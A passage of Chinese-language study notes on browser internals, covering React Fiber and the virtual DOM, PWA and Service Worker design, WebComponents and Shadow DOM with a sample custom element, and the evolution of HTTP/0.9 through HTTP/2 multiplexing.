在[引擎是如何实现 async/await](#56-js-引擎是如何实现-asyncawait)中介绍了协程，其实协程的另外一个称呼就是 Fiber，所以在这里可以把 Fiber 和协程关联起来，那么所谓的 Fiber reconciler 就是在执行算法的过程中出让主线程，这样就解决了 Stack reconciler 函数占用时间过久的问题。

接下来再从双缓存和 MVC 模型这两个视角来聊聊虚拟 DOM：

- **双缓存**

  在开发游戏或者处理其他图像的过程中，屏幕从前缓冲区读取数据然后显示。但是很多图形操作都很复杂且需要大量的运算，比如一幅完整的画面，可能需要计算多次才能完成，如果每次计算完一部分图像，就将其写入缓冲区，那么就会造成一个后果，那就是在显示一个稍微复杂点的图像的过程中，看到的页面效果可能是一部分一部分地显示出来，因此在刷新页面的过程中，会让用户感受到界面的闪烁。

  而使用双缓存，可以先将计算的中间结果存放在另一个缓冲区中，等全部的计算结束，该缓冲区已经存储了完整的图形之后，再将该缓冲区的图形数据一次性复制到显示缓冲区，这样就使得整个图像的输出非常稳定。在这里，可以把虚拟 DOM 看成是 DOM 的一个 buffer，和图形显示一样，它会在完成一次完整的操作之后，再把结果应用到 DOM 上，这样就能减少一些不必要的更新，同时还能保证 DOM 的稳定输出。

- **MVC 模式**

  虚拟 DOM 是一种类似双缓存的实现。不过如果站在技术角度来理解虚拟缓存，依然不能全面理解其含义。那么接下来再来看看虚拟 DOM 在 MVC 模式中所扮演的角色。在各大设计模式当中，MVC 是一个非常重要且应用广泛的模式，因为它能将数据和视图进行分离，在涉及到一些复杂的项目时，能够大大减轻项目的耦合度，使得程序易于维护。关于 MVC 的基础结构，可以先参考下图：

  

  通过上图可以发现，MVC 的整体结构比较简单，由模型、视图和控制器组成，其**核心思想就是将数据和视图分离**，也就是说视图和模型之间是不允许直接通信的，它们之间的通信都是通过控制器来完成的。通常情况下的通信路径是视图发生了改变，然后通知控制器，控制器再根据情况判断是否需要更新模型数据。当然还可以根据不同的通信路径和控制器不同的实现方式，基于 MVC 又能衍生出很多其他的模式，如 MVP、MVVM 等，不过万变不离其宗，它们的基础骨架都是基于 MVC 而来。

  所以在分析基于 React 或者 Vue 这些前端框架时，需要先重点把握大的 MVC 骨架结构，然后再重点查看通信方式和控制器的具体实现方式，这样就能从架构的视角来理解这些前端框架了。比如在分析 React 项目时，可以把 React 的部分看成是一个 MVC 中的视图，在项目中结合 Redux 就可以构建一个 MVC 的模型结构，如下图所示：

  

  在该图中，可以把虚拟 DOM 看成是 MVC 的视图部分，其控制器和模型都是由 Redux 提供的。其具体实现过程如下：

  1. 图中的控制器是用来监控 DOM 的变化，一旦 DOM 发生变化，控制器便会通知模型，让其更新数据
  2. 模型数据更新好之后，控制器会通知视图，告诉它模型的数据发生了变化
  3. 视图接收到更新消息之后，会根据模型所提供的数据来生成新的虚拟 DOM
  4. 新的虚拟 DOM 生成好之后，就需要与之前的虚拟 DOM 进行比较，找出变化的节点
  5. 比较出变化的节点之后，React 将变化的虚拟节点应用到 DOM 上，这样就会触发 DOM 节点的更新
  6. DOM 节点的变化又会触发后续一系列渲染流水线的变化，从而实现页面的更新

### 6.6 渐进式网页应用（PWA）

[浏览器有三大进化路线](#11-浏览器发展方向)，其中的 Web 应用移动化是 Google 梦寐以求而又一直在发力的一件事，不过对于移动设备来说，前有本地 App，后有移动小程序，想要浏览器切入到移动端是相当困难的一件事，因为浏览器的运行性能是低于本地 App 的，并且 Google 也没有类似微信或者 Facebook 这种体量的用户群体。于是提出了 PWA。

PWA，全称是 Progressive Web App，翻译过来就是渐进式网页应用。根据字面意思，它就是 “渐进式 + Web 应用”。Web 应用就是目前普通的 Web 页面。至于 “渐进式”，就需要从下面两个方面来理解：

- 站在 Web 应用开发者来说，PWA 提供了一个渐进式的过渡方案，让 Web 应用能逐步具有本地应用的能力。采取渐进式可以降低站点改造的代价，使得站点逐步支持各项新技术，而不是一步到位。

- 站在技术角度来说，PWA 技术也是一个渐进式的演化过程，在技术层面会一点点演进，比如逐渐提供更好的设备特性支持，不断优化更加流畅的动画效果，不断让页面的加载速度变得更快，不断实现本地应用的特性。

从这两点可以看出来，PWA 采取的是非常一个缓和的渐进式策略。是要充分发挥 Web 的优势，渐进式地缩短和本地应用或者小程序的距离。那么 Web 最大的优势是自由开放，也正是因为自由和开放，所以大家就很容易对同一件事情达成共识，达成共识之后，一套代码就可以运行在各种设备之上了，这就是跨平台，这也恰恰是本地应用所不具备的。而对于小程序，倒是可以实现跨平台，但要让各家达成共识，目前来看，似乎还是非常不切实际的。

所以 PWA 的定义就是：**它是一套理念，渐进式增强 Web 的优势，并通过技术手段渐进式缩短和本地应用或者小程序的距离**。基于这套理念之下的技术都可以归类到 PWA。

**Web 应用 VS 本地应用**
相对于本地应用，Web 页面缺少的能力：

- 首先，Web 应用缺少离线使用能力，在离线或者在弱网环境下基本上是无法使用的。而用户需要的是沉浸式的体验，在离线或者弱网环境下能够流畅地使用是用户对一个应用的基本要求。
- 其次，Web 应用还缺少了消息推送的能力，因为作为一个 App 厂商，需要有将消息送达到应用的能力。
- 最后，Web 应用缺少一级入口，也就是将 Web 应用安装到桌面，在需要的时候直接从桌面打开 Web 应用，而不是每次都需要通过浏览器来打开。

针对以上 Web 缺陷，PWA 提出了两种解决方案：

- 通过引入 Service Worker 来试着解决离线存储和消息推送的问题
- 通过引入 manifest.json 来解决一级入口的问题

#### 6.6.1 Service Worker

其实在 Service Worker 之前，WHATWG 小组就推出过用 App Cache 标准来缓存页面，不过在使用过程中 App Cache 所暴露的问题比较多，遭到多方吐槽，所以这个标准最终也只能被废弃了。

所以在 2014 年的时候，标准委员会就提出了 Service Worker 的概念，它的**主要思想是在页面和网络之间增加一个拦截器，用来缓存和拦截请求**。整体结构如下图所示：


在没有安装 Service Worker 之前，WebApp 都是直接通过网络模块来请求资源的。安装了 Service Worker 模块之后，WebApp 请求资源时，会先通过 Service Worker，让它判断是返回 Service Worker 缓存的资源还是重新去网络请求资源。一切的控制权都交由 Service Worker 来处理。

**设计思路**
Service Worker 的主要功能就是拦截请求和缓存资源，接下来就从 Web 应用的需求角度来看看 Service Worker 的设计思路：

1. **架构**

   JS 和页面渲染流水线的任务都是在页面主线程上执行的，如果一段 JS 执行时间过久，那么就会阻塞主线程，使得渲染一帧的时间变长，从而让用户产生卡顿的感觉，这对用户来说体验是非常不好的。

   为了避免 JS 过多占用页面主线程时长的情况，浏览器实现了 Web Worker 的功能。Web Worker 的目的是让 JS 能够运行在页面主线程之外，不过由于 Web Worker 中是没有当前页面的 DOM 环境的，所以在 Web Worker 中只能执行一些和 DOM 无关的 JS 脚本，并通过 postMessage 方法将执行的结果返回给主线程。所以说在 Chrome 中，Web Worker 其实就是在渲染进程中开启的一个新线程，它的生命周期是和页面关联的。

   **“让其运行在主线程之外” 就是 Service Worker 来自 Web Worker 的一个核心思想**。不过 Web Worker 是临时的，每次 JS 脚本执行完成之后都会退出，执行结果也不能保存下来，如果下次还有同样的操作，就还得重新来一遍。所以 Service Worker 需要在 Web Worker 的基础之上加上储存功能。

   另外，由于 Service Worker 还需要为多个页面提供服务，所以还**不能把 Service Worker 和单个页面绑定起来**。在目前的 Chrome 架构中，**Service Worker 是运行在浏览器进程中的**，因为浏览器进程生命周期是最长的，所以在浏览器的生命周期内，能够为所有的页面提供服务。

2. **消息推送**

   **消息推送也是基于 Service Worker 来实现的**。因为消息推送时，浏览器页面也许并没有启动，这时就需要 Service Worker 来接收服务器推送的消息，并将消息通过一定方式展示给用户。

3. **安全**

   基于 Web 应用的业务越来越多了，其安全问题是不可忽视的，所以在设计 Service Worker 之初，安全问题就被提上了日程。关于安全，其中最为核心的一条就是 HTTP。HTTP 采用的是明文传输信息，存在被窃听、被篡改和被劫持的风险，在项目中使用 HTTP 来传输数据无疑是 “裸奔”。所以在设计之初，就考虑对 Service Worker 采用 HTTPS 协议，因为采用 HTTPS 的通信数据都是经过加密的，即便拦截了数据，也无法破解数据内容，而且 HTTPS 还有校验机制，通信双方很容易知道数据是否被篡改。所以要使站点支持 Service Worker，首先必要的一步就是要将站点升级到 HTTPS。

### 6.7 WebComponent

WebComponent 它是一套技术的组合，能提供给开发者组件化开发的能力。组件化并没有一个明确的定义，不过可以使用**对内高内聚，对外低耦合**来形容。对内各个元素彼此紧密结合、相互依赖，对外和其他组件的联系最少且接口简单。

可以说，程序员对组件化开发有着天生的需求，因为一个稍微复杂点的项目，就涉及到多人协作开发的问题，每个人负责的组件需要尽可能独立完成自己的功能，其组件的内部状态不能影响到别人的组件，在需要和其他组件交互的地方得提前协商好接口。通过组件化可以降低整个系统的耦合度，同时也降低程序员之间沟通复杂度，让系统变得更加易于维护。

使用组件化能带来很多优势，所以很多语言天生就对组件化提供了很好的支持，比如 C/C++ 就可以很好地将功能封装成模块，无论是业务逻辑，还是基础功能，抑或是 UI，都能很好地将其组合在一起，实现组件内部的高度内聚、组件之间的低耦合。

大部分语言都能实现组件化，归根结底在于编程语言特性，大多数语言都有自己的函数级作用域、块级作用域和类，可以将内部的状态数据隐藏在作用域之下或者对象的内部，这样外部就无法访问了，然后通过约定好的接口和外部进行通信。

JS 虽然有不少缺点，但是作为一门编程语言，它也能很好地实现组件化，毕竟有自己的函数级作用域和块级作用域，所以封装内部状态数据并提供接口给外部都是没有问题的。

#### 6.7.1 阻碍前端组件化的因素

在前端虽然 HTML、CSS 和 JS 是强大的开发语言，但是在大型项目中维护起来会比较困难，如果在页面中嵌入第三方内容时，还需要确保第三方的内容样式不会影响到当前内容，同样也要确保当前的 DOM 不会影响到第三方的内容。

所以在看 WebComponent 之前，得先知道 HTML 和 CSS 是如何阻碍前端组件化的：

- **CSS 影响全局**：渲染引擎会将所有的 CSS 内容解析为 CSSOM，在生成布局树的时候，会在 CSSOM 中为布局树中的元素查找样式，所以有两个相同标签最终所显示出来的效果是一样的，渲染引擎是不能为它们分别单独设置样式的。

- **页面中只有一个 DOM，任何地方都可以直接读取和修改 DOM**。所以使用 JS 来实现组件化是没有问题的，但是 JS 一旦遇上 CSS 和 DOM，那就相当难办了。

#### 6.7.2 WebComponent 组件化开发

WebComponent 给出了解决思路，它提供了对局部视图封装能力，可以让 DOM、CSSOM 和 JS 运行在局部环境中，这样就使得局部的 CSS 和 DOM 不会影响到全局。

WebComponent 是一套技术的组合，具体涉及到了 **Custom elements（自定义元素）、Shadow DOM（影子 DOM）和 HTML templates（HTML 模板）**，详细内容可以参考 MDN 上的[相关链接](https://developer.mozilla.org/zh-CN/docs/Web/Web_Components)。

```html
<!DOCTYPE html>
<html>
  <body>
    <!--
      一：定义模板
      二：定义内部 CSS 样式
      三：定义 JS 行为
    -->
    <template id="geekbang-t">
      <style>
        p {
          background-color: brown;
          color: cornsilk;
        }

        div {
          width: 200px;
          background-color: bisque;
          border: 3px solid chocolate;
          border-radius: 10px;
        }
      </style>
      <div>
        <p>time.geekbang.org</p>
        <p>time1.geekbang.org</p>
      </div>
      <script>
        function foo() {
          console.log('inner log');
        }
      </script>
    </template>

    <script>
      class GeekBang extends HTMLElement {
        constructor() {
          super();
          // 获取组件模板
          const content = document.querySelector('#geekbang-t').content;
          // 创建影子DOM节点
          const shadowDOM = this.attachShadow({ mode: 'open' });
          // 将模板添加到影子DOM上
          shadowDOM.appendChild(content.cloneNode(true));
        }
      }
      customElements.define('geek-bang', GeekBang);
    </script>

    <geek-bang></geek-bang>
    <div>
      <p>time.geekbang.org</p>
      <p>time1.geekbang.org</p>
    </div>
    <geek-bang></geek-bang>
  </body>
</html>
```

详细观察上面这段代码，可以得出：要使用 WebComponent，通常要实现下面三个步骤：

1. **首先，使用 template 来创建模板**。利用 DOM 可以查找到模板的内容，但是模板元素是不会被渲染到页面上的，也就是说 DOM 树中的 template 节点不会出现在布局树中，所以可以使用 template 来自定义一些基础的元素结构，这些基础的元素结构是可以被重复使用的。一般模板定义好之后，还需要在模板的内部定义样式信息。

2. 其次，需要创建一个 GeekBang 的类。在该类的构造函数中要完成三件事：

   1. 查找模板内容
   2. 创建影子 DOM
   3. 将模板添加到影子 DOM 上

   **影子 DOM 的作用是将模板中的内容与全局 DOM 和 CSS 进行隔离**，这样就可以实现元素和样式的私有化了。可以把影子 DOM 看成是一个作用域，其内部的样式和元素是不会影响到全局的样式和元素的，而在全局环境下，要访问影子 DOM 内部的样式或者元素也是需要通过约定好的接口的。

   通过影子 DOM 就实现了 CSS 和元素的封装，在创建好封装影子 DOM 的类之后，就可以使用 `customElements.define` 来自定义元素了。最后，可以像正常使用 HTML 元素一样使用该元素。

   

   从图中可以看出，影子 DOM 内部的样式是不会影响到全局 CSSOM 的。另外，使用 DOM 接口也是无法直接查询到影子 DOM 内部元素的，因为要想查找影子 DOM 内部的元素需要专门的接口，所以通过这种方式又将影子内部的 DOM 和外部的 DOM 进行了隔离。

   > **注意**：影子 DOM 的 JS 脚本是不会被隔离的，比如在影子 DOM 定义的 JS 函数依然可以被外部访问，这是因为 JS 语言本身已经可以很好地实现组件化了。

#### 6.7.3 浏览器如何实现影子 DOM

WebComponent 整体知识点不多，内容也不复杂，核心就是影子 DOM。上面介绍影子 DOM 的作用主要有以下两点：

- 影子 DOM 中的元素对于整个网页是不可见的
- 影子 DOM 的 CSS 不会影响到整个网页的 CSSOM，影子 DOM 内部的 CSS 只对内部的元素起作用


该图是上面示例代码对应的 DOM 结构图，从图中可以看出，使用了两次 geek-bang 属性，那么就会生成两个影子 DOM，并且每个影子 DOM 都有一个 shadow root 的根节点，可以将要展示的样式或者元素添加到影子 DOM 的根节点上，每个影子 DOM 都可以看成是一个独立的 DOM，它有自己的样式、自己的属性，内部样式不会影响到外部样式，外部样式也不会影响到内部样式。

浏览器为了实现影子 DOM 的特性，在代码内部做了大量的条件判断，比如当通过 DOM 接口去查找元素时，渲染引擎会去判断 geek-bang 属性下面的 shadow-root 元素是否是影子 DOM，如果是影子 DOM，那么就直接跳过 shadow-root 元素的查询操作。所以这样通过 DOM API 就无法直接查询到影子 DOM 的内部元素了。

另外，当生成布局树的时候，渲染引擎也会判断 geek-bang 属性下面的 shadow-root 元素是否是影子 DOM，如果是，那么在影子 DOM 内部元素的节点选择 CSS 样式的时候，会直接使用影子 DOM 内部的 CSS 属性。所以这样最终渲染出来的效果就是影子 DOM 内部定义的样式。

## 七. 浏览器中的网络

谈及浏览器中的网络，就避不开 HTTP。**HTTP 是浏览器中最重要且使用最多的协议，是浏览器和服务器之间的通信语言，也是互联网的基石**。而随着浏览器的发展，HTTP 为了能适应新的形式也在持续进化，比如：即将完成使命的 HTTP/1、新兴的 HTTP/2，以及未来的 HTTP/3。

### 7.1 HTTP/1.1 进化史

#### 7.1.1 超文本传输协议 HTTP/0.9

首先来看看诞生最早的 HTTP/0.9。HTTP/0.9 是于 1991 年提出的，主要用于学术交流，需求很简单——用来在网络之间传递 HTML 超文本的内容，所以被称为超文本传输协议。整体来看，它的实现也很简单，采用了基于请求响应的模式，从客户端发出请求，服务器返回数据。

下面就来看看 HTTP/0.9 的一个完整的请求流程：

- 因为 HTTP 都是基于 TCP 协议的，所以客户端先要根据 IP 地址、端口和服务器建立 TCP 连接，而建立连接的过程就是 TCP 协议三次握手的过程。
- 建立好连接之后，会发送一个 GET 请求行的信息，如 GET /index.html 用来获取 index.html。
- 服务器接收请求信息之后，读取对应的 HTML 文件，并将数据以 ASCII 字符流返回给客户端。
- HTML 文档传输完成后，断开连接。


总的来说，当时的需求很简单，就是用来传输体积很小的 HTML 文件，所以 HTTP/0.9 的实现有以下三个特点：

- 只有一个请求行，并没有 HTTP 请求头和请求体，因为只需要一个请求行就可以完整表达客户端的需求了。
- 服务器也没有返回头信息，这是因为服务器端并不需要告诉客户端太多信息，只需要返回数据就可以了。
- 返回的文件内容是以 ASCII 字符流来传输的，因为都是 HTML 格式的文件，所以使用 ASCII 字节码来传输是最合适的。

#### 7.1.2 被浏览器推动的 HTTP/1.0

HTTP/0.9 虽然简单，但是已经可以满足当时的需求了。不过变化是这个世界永恒不变的主旋律，1994 年底出现了拨号上网服务，同年网景又推出一款浏览器，从此万维网就不局限于学术交流了，而是进入了高速的发展阶段。随之而来的是万维网联盟（W3C）和 HTTP 工作组（HTTP-WG）的创建，它们致力于 HTML 的发展和 HTTP 的改进。万维网的高速发展带来了很多新的需求，而 HTTP/0.9 已经不能适用新兴网络的发展，所以这时就需要一个新的协议来支撑新兴网络，这就是 HTTP/1.0 诞生的原因。

不过在详细分析 HTTP/1.0 之前，先来分析下新兴网络都带来了哪些新需求。首先在浏览器中展示的不单是 HTML 文件了，还包括了 JS、CSS、图片、音频、视频等不同类型的文件。因此**支持多种类型的文件下载是 HTTP/1.0 的一个核心诉求**，而且文件格式不仅仅局限于 ASCII 编码，还有很多其他类型编码的文件。

**如何实现多种类型文件的下载**
HTTP 是浏览器和服务器之间的通信语言，不过 HTTP/0.9 在建立好连接之后，只会发送类似 GET /index.html 的简单请求命令，并没有其他途径告诉服务器更多的信息，如文件编码、文件类型等。同样，服务器是直接返回数据给浏览器的，也没有其他途径告诉浏览器更多的关于服务器返回的文件信息。

这种简单的交流型形式无疑不能满足传输多种类型文件的需求，那为了让客户端和服务器能更深入地交流，HTTP/1.0 **引入了请求头和响应头**，它们都是以为 Key-Value 形式保存的，在 HTTP 发送请求时，会带上请求头信息，服务器返回数据时，会先返回响应头信息。至于 HTTP/1.0 具体的请求流程，可以参考下图。


要支持多种类型的文件，就需要解决以下几个问题：

- 首先，浏览器需要知道服务器返回的数据是什么类型的，然后浏览器才能根据不同的数据类型做针对性的处理。
- 其次，由于万维网所支持的应用变得越来越广，所以单个文件的数据量也变得越来越大。为了减轻传输性能，服务器会对数据进行压缩后再传输，所以浏览器需要知道服务器压缩的方法。
- 再次，由于万维网是支持全球范围的，所以需要提供国际化的支持，服务器需要对不同的地区提供不同的语言版本，这就需要浏览器告诉服务器它想要什么语言版本的页面。
- 最后，由于增加了各种不同类型的文件，而每种文件的编码形式又可能不一样，为了能够准确地读取文件，浏览器需要知道文件的编码类型。

基于以上问题，HTTP/1.0 的方案是通过请求头和响应头来进行协商，在发起请求时候会通过 HTTP 请求头告诉服务器它期待服务器返回什么类型的文件、采取什么形式的压缩、提供什么语言的文件以及文件的具体编码。最终发送出来的请求头内容如下：

```txt
accept: text/html
accept-encoding: gzip, deflate, br
accept-Charset: ISO-8859-1,utf-8
accept-language: zh-CN,zh
```

其中第一行表示期望服务器返回 html 类型的文件，第二行表示期望服务器可以采用 gzip、deflate 或者 br 其中的一种压缩方式，第三行表示期望返回的文件编码是 UTF-8 或者 ISO-8859-1，第四行是表示期望页面的优先语言是中文。

服务器接收到浏览器发送过来的请求头信息之后，会根据请求头的信息来准备响应数据。不过有时候会有一些意外情况发生，比如浏览器请求的压缩类型是 gzip，但是服务器不支持 gzip，只支持 br 压缩，那么它会通过响应头中的 content-encoding 字段告诉浏览器最终的压缩类型，也就是说最终浏览器需要根据响应头的信息来处理数据。下面是一段响应头的数据信息：

```txt
content-encoding: br
content-type: text/html; charset=UTF-8
```

其中第一行表示服务器采用了 br 的压缩方法，第二行表示服务器返回的是 html 文件，并且该文件的编码类型是 UTF-8。

有了响应头的信息，浏览器就会使用 br 方法来解压文件，再按照 UTF-8 的编码格式来处理原始文件，最后按照 HTML 的方式来解析该文件。这就是 HTTP/1.0 支持多文件的一个基本的处理流程。

HTTP/1.0 除了对多文件提供良好的支持外，还依据当时实际的需求引入了很多其他的特性，这些特性都是通过请求头和响应头来实现的。下面来看看新增的几个典型的特性：

- 有的请求服务器可能无法处理，或者处理出错，这时候就需要告诉浏览器服务器最终处理该请求的情况，这就引入了**状态码**。状态码是通过响应行的方式来通知浏览器的。
- 为了减轻服务器的压力，在 HTTP/1.0 中提供了 **Cache 机制**，用来缓存已经下载过的数据。
- 服务器需要统计客户端的基础信息，比如 Windows 和 macOS 的用户数量分别是多少，所以 HTTP/1.0 的请求头中还加入了**用户代理**的字段。

#### 7.1.3 缝缝补补的 HTTP/1.1

不过随着技术的继续发展，需求也在不断迭代更新，很快 HTTP/1.0 也不能满足需求了，所以 HTTP/1.1 又在 HTTP/1.0 的基础之上做了大量的更新。

1. **改进持久连接 HTTP/1.0**

   每进行一次 HTTP 通信，都需要经历建立 TCP 连接、传输 HTTP 数据和断开 TCP 连接三个阶段（如下图）。

   

   在当时，由于通信的文件比较小，而且每个页面的引用也不多，所以这种传输形式没什么大问题。但是随着浏览器普及，单个页面中的图片文件越来越多，有时候一个页面可能包含了几百个外部引用的资源文件，如果在下载每个文件的时候，都需要经历建立 TCP 连接、传输数据和断开连接这样的步骤，无疑会增加大量无谓的开销。

   为了解决这个问题，**HTTP/1.1 中增加了持久连接的方法，它的特点是在一个 TCP 连接上可以传输多个 HTTP 请求，只要浏览器或者服务器没有明确断开连接，那么该 TCP 连接会一直保持**。

   

   从上图可以看出，HTTP 的持久连接可以有效减少 TCP 建立连接和断开连接的次数，这样的好处是减少了服务器额外的负担，并提升整体 HTTP 的请求时长。

   持久连接在 HTTP/1.1 中是默认开启的，所以不需要专门为了持久连接去 HTTP 请求头设置信息，如果不想要采用持久连接，可以在 HTTP 请求头中加上 Connection: close。目前**浏览器中对于同一个域名，默认允许同时建立 6 个 TCP 持久连接**。

2. **不成熟的 HTTP 管线化**

   持久连接虽然能减少 TCP 的建立和断开次数，但是它需要等待前面的请求返回之后，才能进行下一次请求。如果 TCP 通道中的某个请求因为某些原因没有及时返回，那么就会阻塞后面的所有请求，这就是著名的**队头阻塞**的问题。

   HTTP/1.1 中试图通过管线化的技术来解决队头阻塞的问题。HTTP/1.1 中的管线化是指将多个 HTTP 请求整批提交给服务器的技术，虽然可以整批发送请求，不过服务器依然需要根据请求顺序来回复浏览器的请求。FireFox、Chrome 都做过管线化的试验，但是由于各种原因，它们最终都放弃了管线化技术。

3. **提供虚拟主机的支持**

   在 HTTP/1.0 中，每个域名绑定了一个唯一的 IP 地址，因此一个服务器只能支持一个域名。但是随着虚拟主机技术的发展，需要实现在一台物理主机上绑定多个虚拟主机，每个虚拟主机都有自己的单独的域名，这些单独的域名都公用同一个 IP 地址。因此，HTTP/1.1 的请求头中增加了 **Host 字段**，用来表示当前的域名地址，这样服务器就可以根据不同的 Host 值做不同的处理。

4. **对动态生成的内容提供了完美支持**

   在设计 HTTP/1.0 时，需要在响应头中设置完整的数据大小，如 Content-Length: 901，这样浏览器就可以根据设置的数据大小来接收数据。不过随着服务器端的技术发展，很多页面的内容都是动态生成的，因此在传输数据之前并不知道最终的数据大小，这就导致了浏览器不知道何时会接收完所有的文件数据。HTTP/1.1 通过引入 **Chunk transfer 机制**来解决这个问题，服务器会将数据分割成若干个任意大小的数据块，每个数据块发送时会附上上个数据块的长度，最后使用一个零长度的块作为发送数据完成的标志。这样就提供了对动态内容的支持。

5. **客户端 Cookie、安全机制**

   HTTP/1.1 还引入了客户端 Cookie 机制和安全机制。

### 7.2 HTTP/2

虽然 HTTP/1.1 已经做了大量的优化，但是依然存在很多性能瓶颈，依然不能满足日益变化的新需求，所以就有了 HTTP/2。

依然从需求的层面来谈，先分析 HTTP/1.1 存在哪些问题，然后再来分析 HTTP/2 是如何解决这些问题的。HTTP/1.1 为网络效率做了大量的优化，最核心的有如下三种方式：

- 增加了持久连接
- 浏览器为每个域名最多同时维护 6 个 TCP 持久连接
- 使用 CDN 的实现域名分片机制

通过这些方式就大大提高了页面的下载速度：



在该图中，引入了 CDN，并同时为每个域名维护 6 个连接，这样就大大减轻了整个资源的下载时间。这里可以简单计算下：如果使用单个 TCP 的持久连接，下载 100 个资源所花费的时间为 `100 * n * RTT`；若通过上面的技术，就可以把整个时间缩短为 `100 * n * RTT/(6 * CDN 个数)`。从这个计算结果来看，页面加载速度变快了不少。

#### 7.2.1 HTTP/1.1 的主要问题

虽然 HTTP/1.1 采取了很多优化资源加载速度的策略，也取得了一定的效果，但是 HTTP/1.1 对**带宽的利用率却并不理想**，这也是 HTTP/1.1 的一个核心问题。

> **带宽是指每秒最大能发送或者接收的字节数**。把每秒能发送的最大字节数称为**上行带宽**，每秒能够接收的最大字节数称为**下行带宽**。

之所以说 HTTP/1.1 对带宽的利用率不理想，是因为 HTTP/1.1 很难将带宽用满。比如 100M 带宽，实际的下载速度能达到 12.5M/S，而采用 HTTP/1.1 时，也许在加载页面资源时最大只能使用到 2.5M/S，很难将 12.5M 全部用满。之所以会出现这个问题，主要是由以下三个原因导致的：

- **TCP 的慢启动**

  一旦一个 TCP 连接建立之后，就进入了发送数据状态，刚开始 TCP 协议会采用一个非常慢的速度去发送数据，然后慢慢加快发送数据的速度，直到发送数据的速度达到一个理想状态，这个过程被称为慢启动。

  慢启动是 TCP 为了减少网络拥塞的一种策略，是没有办法改变的。而之所以说慢启动会带来性能问题，是因为页面中常用的一些关键资源文件本来就不大，如 HTML 文件、CSS 文件和 JS 文件，通常这些文件在 TCP 连接建立好之后就要发起请求的，但这个过程是慢启动，所以耗费的时间比正常的时间要多很多，这样就推迟了宝贵的首次渲染页面的时长了。

- **同时开启了多条 TCP 连接，那么这些连接会竞争固定的带宽**

  系统同时建立了多条 TCP 连接，当带宽充足时，每条连接发送或者接收速度会慢慢向上增加；而一旦带宽不足时，这些 TCP 连接又会减慢发送或者接收的速度。比如一个页面有 200 个文件，使用了 3 个 CDN，那么加载该网页的时候就需要建立 6 \* 3，也就是 18 个 TCP 连接来下载资源；在下载过程中，当发现带宽不足的时候，各个 TCP 连接就需要动态减慢接收数据的速度。

  这样就会出现一个问题，因为有的 TCP 连接下载的是一些关键资源，如 CSS 文件、JS 文件等，而有的 TCP 连接下载的是图片、视频等普通的资源文件，但是多条 TCP 连接之间又不能协商让哪些关键资源优先下载，这样就有可能影响那些关键资源的下载速度了。

- **HTTP/1.1 队头阻塞的问题**

  HTTP/1.1 中使用持久连接时，虽然能公用一个 TCP 管道，但是在一个管道中同一时刻只能处理一个请求，在当前的请求没有结束之前，其他的请求只能处于阻塞状态。这意味着不能随意在一个管道中发送请求和接收内容。这是一个很严重的问题，因为阻塞请求的因素有很多，并且都是一些不确定性的因素，假如有的请求被阻塞了 5 秒，那么后续排队的请求都要延迟等待 5 秒，在这个等待的过程中，带宽、CPU 都被白白浪费了。

  在浏览器处理生成页面的过程中，是非常希望能提前接收到数据的，这样就可以对这些数据做预处理操作，比如提前接收到了图片，那么就可以提前进行编解码操作，等到需要使用该图片的时候，就可以直接给出处理后的数据了，这样能让用户感受到整体速度的提升。但队头阻塞使得这些数据不能并行请求，所以队头阻塞是很不利于浏览器优化的。

#### 7.2.2 HTTP/2 的多路复用

虽然 TCP 有问题，但是没有换掉 TCP 的能力，所以就要想办法去规避 TCP 的慢启动和 TCP 连接之间的竞争问题。基于此，HTTP/2 的思路就是一个域名只使用一个 TCP 长连接来传输数据，这样整个页面资源的下载过程只需要一次慢启动，同时也避免了多个 TCP 连接竞争带宽所带来的问题。

另外，就是队头阻塞的问题，等待请求完成后才能去请求下一个资源，这种方式无疑是最慢的，所以 HTTP/2 需要实现资源的并行请求，也就是任何时候都可以将请求发送给服务器，而并不需要等待其他请求的完成，然后服务器也可以随时返回处理好的请求资源给浏览器。所以，HTTP/2 的解决方案可以总结为：**一个域名只使用一个 TCP 长连接和消除队头阻塞问题**。可以参考下图：


该图就是 HTTP/2 最核心、最重要且最具颠覆性的**多路复用机制**。从图中会发现每个请求都有一个对应的 ID，如 stream1 表示 index.html 的请求，stream2 表示 foo.css 的请求。这样在浏览器端，就可以随时将请求发送给服务器了。

服务器端接收到这些请求后，会根据自己的喜好来决定优先返回哪些内容，比如服务器可能早就缓存好了 index.html 和 bar.js 的响应头信息，那么当接收到请求的时候就可以立即把 index.html 和 bar.js 的响应头信息返回给浏览器，然后再将 index.html 和 bar.js 的响应体数据返回给浏览器。之所以可以随意发送，是因为每份数据都有对应的 ID，浏览器接收到之后，会筛选出相同 ID 的内容，将其拼接为完整的 HTTP 响应数据。

HTTP/2 使用了多路复用技术，可以将请求分成一帧一帧的数据去传输，这样带来了一个额外的好处，就是当收到一个优先级高的请求时，比如接收到 JS 或者 CSS 关键资源的请求，服务器可以暂停之前的请求来优先处理关键资源的请求。

**多路复用的实现**：


从图中可以看出，HTTP/2 添加了一个二进制分帧层，结合图来分析下 HTTP/2 的请求和接收过程：

1. 首先，浏览器准备好请求数据，包括了请求行、请求头等信息，如果是 POST 方法，那么还要有请求体。
2. 这些数据经过二进制分帧层处理之后，会被转换为一个个带有请求 ID 编号的帧，通过协议栈将这些帧发送给服务器。
3. 服务器接收到所有帧之后，会将所有相同 ID 的帧合并为一条完整的请求信息。
4. 然后服务器处理该条请求，并将处理的响应行、响应头和响应体分别发送至二进制分帧层。
5. 同样，二进制分帧层会将这些响应数据转换为一个个带有请求 ID 编号的帧，经过协议栈发送给浏览器。
6. 浏览器接收到响应帧之后，会根据 ID 编号将帧的数据提交给对应的请求。

从上面的流程可以看出，**通过引入二进制分帧层，实现了 HTTP 的多路复用技术**。

HTTP 是浏览器和服务器通信的语言，在这里虽然 HTTP/2 引入了二进制分帧层，不过 HTTP/2 的语义和 HTTP/1.1 依然是一样的，也就是说它们通信的语言并没有改变，比如开发者依然可以通过 Accept 请求头告诉服务器希望接收到什么类型的文件，依然可以使用 Cookie 来保持登录状态，依然可以使用 Cache 来缓存本地文件，这些都没有变，发生改变的只是传输方式。这一点对开发者来说尤为重要，这意味着不需要为 HTTP/2 去重建生态，并且 HTTP/2 推广起来会也相对更轻松了。

**HTTP/2 其他特性**
多路复用是 HTTP/2 的最核心功能，它能实现资源的并行传输。多路复用技术是建立在二进制分帧层的基础之上。其实基于二进制分帧层，HTTP/2 还附带实现了很多其他功能，下面简要了解下：

1. **可以设置请求的优先级**

